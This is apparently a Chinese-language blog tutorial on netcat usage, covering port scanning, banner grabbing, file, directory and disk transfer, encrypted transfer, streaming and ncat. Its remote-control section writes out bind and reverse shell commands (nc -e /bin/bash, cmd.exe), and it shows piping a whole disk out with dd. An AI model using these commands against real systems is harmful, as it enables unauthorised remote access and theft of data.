 # netcat使用

## 1.netcat 简介

 **netcat是一个通过TCP/UDP在网络中进行读写数据工具（命令），被称为“瑞士军刀”**，主要用于调试领域、传输领域甚至黑客攻击领域。利用该工具，可以将网络中一端的数据完整的发送至另一台主机终端显示或存储，常见的应用为文件传输、与好友即时通信、传输流媒体或者作为用来验证服务器的独立的客户端。当然，也可以在脚本中使用该工具

现在的Linux都默认安装nc，只是版本可能不一致，导致某些参数不能通用，我以下介绍的是kail中的nc

## 2.功能介绍

-   侦听模式/传输模式
-   Telnet/获取banner信息
-   传输文本信息
-   传输文件/目录
-   加密传输文件
-   远程控制/木马
-   加密所有流量
-   流媒体服务器
-   远程克隆硬盘

## 3.命令介绍

```
nc -h					#可以看到nc版本和参数介绍
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7221bca7a1124671ace7fc475a13235c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbmd5b25na2FuZzY2Ng==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

**nc中比较常用的参数说明**

```
-4 : 强制nc使用ipv4
-6 : 强制nc使用ipv6
-D : 使用socket的方式
-d : daemon（后台）运行，就可以配置成服务
-l : 监听模式，如果没有特别指定后面常常隐式使用-p参数
-n : 使用ip的，而不使用域名
-p : 使用本地主机的端口，默认是tcp协议的端口
-r : 任意指定本地及远程端口
-s : 设置本地主机送出数据包的IP地址，主机上有多个IP时指定绑定的IP
-U : 使用Unix的socket
-u : 使用udp协议
-v : 详细输出
-z : 将输入输出关掉，即不进行交互，用于扫描时，注意在nmap的版本下没有这个参数
-w : 设置连接超时时间，单位秒
1234567891011121314
```

## 4.功能展示

### **1.端口扫描**

**命令：**

```
netcat -v ip port
netcat -nvz 1.1.1.1 1-65535
12
```

### **2.获取banner信息**

端口banner信息
1.它是端口的欢迎语。
2.banner信息包括：软件开发商、软件名称、服务类型、版本号等信息。
3.可通过banner信息，进行漏洞测试。如：对应的CVE漏洞等。

```
nc -nv 220.181.12.110 110
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/921e01bcc6cc43ac976679c978233b23.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbmd5b25na2FuZzY2Ng==,size_19,color_FFFFFF,t_70,g_se,x_16#pic_center)

### **3.传输文本信息、远程电子取证信息收集**

原则：不对目标对象进行修改，避免破坏证据

**使用场景**

**取证**
当目标机器被黑客攻击之后，取证人员可以利用nc的文件传输功能来获取目标机器上的文件内容。避免直接在目标机器上进行操作造成取证的误差。
单纯获取目标机器敏感文件

当目标机器上有一些文件内容，无法正常下载时，可以利用nc进行文件传输。
**为什么可以直接利用nc进行文件传输呢？**
nc中的数据传输 使用的是标准的输入、输出流，所以可以直接利用命令行来进行操作。

```
nc -l -p 4444(服务端)			   //-l   监听模式，用于入站连接   -p   指定端口
								// 在自己的电脑上开一个端口	4444	
nc -nv 1.1.1.1 4444(客户端) 

netstat -pantu | grep 4444
12345
```

正向文件传输

```
nc -lp 444 > 1.txt（服务端）
nc -lp 444 > 1.mp4

nc -nv 1.1.1.1 444 < 1.txt -q 1（客户端）
nc -nv 1.1.1.1 444 < 1.mp4 -q 1
12345
```

反向文件传输

```
nc -lp 444 < 1.txt -q 1（服务端）

nc -nv 1.1.1.1 444 > 1.txt（客户端）
123
-q 1      //传输完成后延迟1秒退出
1
```

### **4.传输目录**

```
tar -cvf - file/ | nc -lp 444 -q 1    		//发送端
nc -nv 1.1.1.1 444 | tar -xvf -				//接收端

tar -c   创建一个新归档			 //-cvf
    -x   从归档中解出文件			//-xvf
12345
```

### **5.加密传输文件**

加密传输文件需要使用 mcrypt 库，linux 系统默认是没有安装的，需要手动安装。随后和传输文件类似，只需要在传输文件时使用 mcrypt 加密即可。

```
nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4

mcrypt --flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 192.168.178.138 333 -q 1
123
```

### **6.流媒体服务**

对于直播的功能就类似于[流媒体](https://so.csdn.net/so/search?q=流媒体&spm=1001.2101.3001.7020)，就是对方把视频通过流的方式进行传输，传输多少，对方就会实时的播放多少。

首先，需要在要传送文件的机器上把文件通过管道给 nc，然后监听一个端口。在接收端，连接此端口然后通过管道给 mplayer 进行实时播放，mplayer 默认 linux 不安装，需要手动安装。其中 vo 参数是选择驱动程序，cache 是每秒要接收的播放帧

```
cat 1.mp4 | nc -lp 333

nc -nv 192.168.178.138 333 | mplayer -vo x11 -cache 3000 -
123
```

### **7.远程控制**

正向

```
nc -lp 444 -c bash

nc -nv IP 444
123
```

反向

```
nc -lp 444

nc IP 444 -c bash
注：windows 把bash改为cmd
1234
```

nc正向反弹shell(将shell弹到本地端口，随后使用nc链接本地端口)

```
nc -lvvp 7777 -e /bin/bash
1
```

nc反向反弹shell

```
nc ip 8888 -e /bin/bash  
nc ip 8888 -e c:\windows\system32\cmd.exe
12
```

### **8.远程硬盘克隆**

```
nc -lp 444 | dd of=/dev/sda						//接收端

dd if=/dev/sda | nc -nv 1.1.1.1 444 -q 1		//发送端
123
```

### **9.NCAT**

NC缺乏加密和身份验证的能力，NCAT弥补了NC的不足

Ncat包含于nmap工具包中

```
ncat -c bash --allow IP -vnl 333 --ssl

ncat -nv IP 333 --ssl
123
```
